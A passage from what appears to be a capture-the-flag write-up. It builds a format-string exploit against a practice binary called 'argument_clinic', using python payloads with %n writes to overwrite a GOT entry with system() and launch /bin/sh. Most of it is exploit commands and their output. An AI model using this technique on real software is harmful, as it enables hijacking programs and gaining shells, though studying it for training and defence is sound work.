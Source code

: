 ```
adjusting to make it work out nicely:

```
> python -c 'print "%9$lx---" + "\x10\x11\x60\x00\x00\x00\x00\x00"' | ./argument_clinic

Write something already.
You entered: 601110---`
You're still lame.


> python -c 'print "%9$lx---" + "\x10\x11\x60\x00\x00\x00\x00\x00"' | ./argument_clinic

Write something already.
You entered: 601110---`
You're still lame.
```

The unfortunate part about putting the address at the end is that as we add to the
string, it will change the location in memory of the address. To make this simpler,
I recommend adding to the string in multiples of 8, and increasing each of the
specifiers by 1 for every 8 characters. 

Now to figure out what to print. If we pull up python and calculate the integer value
of our address, we see that the address of system is equal to 140,737,337,360,384. 
Considering how long it took to print the address in format4, which worked out to a
few hundred million, this would take an absolutely insane amount of time to print.
So we need to find another way...

Instead of printing the entire value at once, we can try printing it piece-by-piece.
We'll need to work from the lowest bit to the highest, since the higher bits will
be replaced with zeroes every time we write. Another slight wrinkle is that, since
%n prints the number of characters written so far, we can only write increasing
values.

In order to make the exploit run faster, I've opted to write this in three chunks.
To recap, our address is 0x00 00 7f ff f7 22 22 22. First, I'll write 0x22 22 22
at the lowest three bytes. Then, I'll write 0x22 ff f7 three bytes from the start,
since we need to continue increasing and we know the 0x22 will be overwritten anyway.
Lastly, I'll write 0x01 00 00 7f five bytes from the start, to replace the 22 and
fill the rest with zeroes. This will have the side effect of putting a 01 in the next
entry of the GOT, but it won't matter after our program launches a shell anyway.

Lets do a little more setup with our exploit string before we start adding in these
massive values. First, we'll add "/bin/sh " (which, conveniently, is exactly 8
characters) at the beginning and update the offsets accordingly:

```
> python -c 'print "/bin/sh %10$lx--" + "\x10\x11\x60\x00\x00\x00\x00\x00"' | ./argument_clinic
Write something already.
You entered: /bin/sh 601110--`
You're still lame.
```

Then, we'll add the two extra addresses: one at 0x601113, and one at 0x601115 - 
3 and 5 bytes after the start of the GOT entry. Since the two extra specifiers
are both an additional 8 characters, we need to increase the first specifier
to index 12, and the two new ones will be 13 and 14.

```
> python -c 'print "/bin/sh %12$lx--" + "%13$lx.." + "%14$lx.." + "\x10\x11\x60\x00\x00\x00\x00\x00\x13\x11\x60\x00\x00\x00\x00\x00\x15\x11\x60\x00\x00\x00\x00\x00"' | ./argument_clinic
Write something already.
You entered: /bin/sh 601110--601113..601115..`
You're still lame.
```

```